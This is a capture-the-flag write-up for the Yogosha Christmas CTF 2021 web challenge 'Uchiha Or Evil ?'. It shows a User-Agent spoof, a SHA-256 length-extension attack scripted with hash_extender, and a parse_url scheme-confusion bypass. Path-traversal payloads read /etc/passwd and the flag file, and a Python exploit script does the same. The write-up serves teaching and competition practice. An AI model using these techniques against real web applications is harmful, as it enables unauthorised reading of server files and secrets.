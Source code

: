```yaml
---
title: 'Uchiha Or Evil ?'
image: '/assets/APYxowi.png'
created: 2021-12-19
updated: 2021-12-19
tags:
  - 'ctf'
  - 'yogosha'
---
```


# Uchiha Or Evil ?

> Yogosha Christmas CTF 2021

---

```
I heard something important is stored in /secret.txt here: http://3.141.159.106 ; Maybe the akatsuki will help the Uchiha clan ?
```

- From the previous challenge we got a url. Let's visit the page.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/1.png)

- Nothing much on this page. I ran `nikto` & got there is a `robots.txt` file here. We can check the robots.txt page & there's some interesting info. So there is page.Let's go to `read.php`
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/2.png)
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/3.png)
- We got access denied. There is an interesting line in the robots.txt file which is `User-agent: Uchiha`. Let's change our useragent to `Uchiha`. You can use burp or a user agent changer extension. And we have something here.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/4.png)
- Let's view the source. We have 2 things here.
    1. The form is sending post data with some hash concatenated a filename
    2. Some dev notes(comments)

![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/5.png)

- If we send the form we can see some odd thing happening here. Looks like the source code of the `read.php` page is loading. So form the dev comment we can see we have to read the source here in-order to continue from here.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/6.png)
- Let's save the source in a file & read the code.

```php
<?php
if ($_SERVER['HTTP_USER_AGENT']!=="Uchiha"){
 echo "Access Denied. Only Uchiha clan can access this";
}
else{
?>

<?php
include "secret.php";
if(isset($_POST['string'])){
 $arr=explode("|",$_POST['string']) ;
 $filenames=$arr[1];
 $hash=$arr[0];
 if($hash===hash("sha256", $SECRET.$filenames ) && preg_match("/\//",$filenames)===0 ){
  foreach(explode(":",$filenames) as $filename){
   if(in_array($filename,["read.php","index.php","guinjutsu.php"])) {
    $jutsu=file_get_contents($filename);
    echo "Sharingan: ".$jutsu;
  }
  }
 }
 else{
  echo "Verification Failed! You didn't awaken your sharingan!";
 }

}

}
?>
```

- So this program is using the [explode](https://www.w3schools.com/php/func_string_explode.asp) function to split the array into 2 parts. Hash and the file.Then it's checking the hash with a concatenating the filename with a secret & from the array we can see there are 3 files. We cannot lord any other file from here. Then it's just dumping the contents of the files we supplied using the delimiter `:` to split filenames.
- I stuck here for 2 days trying to get the secret. I even tried to bruteforce the secret. But the organizers told me it's not brute forcible. There are some attacks on hash but the hash is `sha256` with is one of the safest (at the time being. Everything is secure untill someone breaks it ;). Cutting short the ans is [Length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack). These are the article and videos that helped me.
  - <https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack>
  - <https://www.youtube.com/watch?v=sMla6_4Z-CQ>
  - <https://www.youtube.com/watch?v=6QQ4kgDWQ9w>
- It's a complicated attack so I left it to the smart people and used this tool [hash_extender](https://github.com/iagox86/hash_extender)
- Here is the syntax `hash_extender --data data --secret len-of-sec --append append --signature hash --format fomrat`. We know the data `read.php`, signature `184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5`, format `sha256` we want the length of the secret. We can bruteforce it like this to generate signatures.

```bash
#!/bin/bash

for i in $(seq 100)
do
    hash_extender --data 'read.php' --secret $i --append ":index.php:guinjutsu.php" --signature 184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5 --format sha256 --out-data-format=html | grep "New" | cut -d ' ' -f3 | sed ':a;N;$!ba;s/\n/|/g' >> hashes
done
```

- This script will generate a file called `hashes` concatenating the hashes. Then we can use burpsuite or python to send the hash & check the result.
- The correct length is `42`. And we can see the result here we have the source of `guinjutsu.php`
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/7.png)
- So we have another source code let's see this one in more details

```php
<?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
    $par=parse_url($url);
    if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
        return True;

    }
    else{
        return False;
    }

}
if (isset($_POST['submit'])){
    if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
        $url=$_POST['api'].$_POST['endpoint'];
        if (check($url)){
            $opts = array(
  'http'=>array(
    'method'=>"GET",
    'follow_location'=>false,
    'header'=>"Accept-language: en\r\n" 
  )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;

        }
    }
}

?>
```

- In short the `check` function is checking for the a url which looks like this `http://uchiha.fuinjutsukeeper.tech:5000/`. If the check passes then it'll concat the endpoint with the url & give the output of whatever we're supplying. So how can we exploit this we have to load something which is on the `http://uchiha.fuinjutsukeeper.tech:5000/` & we can't load anything else or can we...
- It took me an another day (:-\` yah I'm slow). Php is weird we all know.. This part `strpos($par['scheme'],'http')!==false)` only checks for if the `http` part is supplied in the url or not; i.e. `http`, `https`, `phttp`, `fhttp`, `httpf` etc will return true. Nice we can do something nasty here.
- If we send the payload as it is we'll get something like this. Because we have to load files from the machine i.e. `LFI`.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/8.png)

- We can bypass this by using this paylaod
`submit=1&api=phttp://uchiha.fuinjutsukeeper.tech:5000/&endpoint=../../../../../../../../../../etc/passwd`
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/9.png)
- See we still got the error but we also got the contents of `/etc/passwd`. This is because this part.

```php
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;
```

- This is because `phttp` is not a valid scheme and thus `file_get_contents` thinks it's just part of the filepath while `parse_url` thinks its just a weird scheme unknown to it, but with a valid host and port!. You can read more in this [writeup](https://deltaclock.gitbook.io/ctf-writeups/securinets-ctf-quals-2021-mixed). Always count on smart people.
- And with this payload `submit=1&api=phttp://uchiha.fuinjutsukeeper.tech:5000/&endpoint=../../../../../../../../../../secret.txt` we have the flag
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/10.png)

- Originally when I was solving this I don't know why burp was not showing any output here so I had the answer but wasted a lot of time. Then a friend of mine told me to use python. I was like why I haven't tried that lol (For the 100th time I'm saying count on smart people to avoid struggles like me) :-). Anyways here is the python script if anyone is interested.

```py
#!/usr/bin/python3
from requests import post
from re import findall

url = "http://3.141.159.106/"
headers = {"User-Agent": "Uchiha"}

data = {"submit":'1',"api":"shttp://uchiha.fuinjutsukeeper.tech:5000/","endpoint":"../../../../../../../../../../secret.txt"}

r = post(url + "/guinjutsu.php", headers=headers, data=data)

#print(r.text)

print(findall("Yogosha{.*", r.text)[0])
```

- Same thing we're sending the data as json format this time & everything else is same & I'm [regular expressions](https://en.wikipedia.org/wiki/Regular_expression) to extract the flag part only.
- `Yogosha{.*` means first get `Yogosha{`(flag format) then `.` means any character & finally `*` means any number of times( 0 or > 0) & then we're indexing the first item of the array(list for python)
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%3F_DONE/images/11.png)

#### Thank you for reading this write-up I hope it helped you. I was only able to solve only the first 2 challenges so that's all from me. I hope you learned something. I'll try to add links of other people whole solved the entire thing

- Check out [smaury's](https://github.com/smaury/CTF-writeups/tree/main/2021/yogosha-christmas-challenge) write-up he has solved all of them even the bonus one. Smart guy alert ;-" do check his write-up it's awesome.
